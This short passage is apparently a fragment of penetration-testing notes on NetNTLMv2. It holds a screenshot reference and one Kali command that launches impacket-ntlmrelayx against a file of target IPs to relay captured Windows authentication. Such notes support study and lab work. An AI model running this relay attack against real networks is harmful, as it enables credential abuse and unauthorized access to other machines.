 ![Screenshot of NetNTLMv2 2](./images/netntlm-2.png)
	            - `Kali> sudo impacket-ntlmrelayx -tf <ip-file> -smb2support` 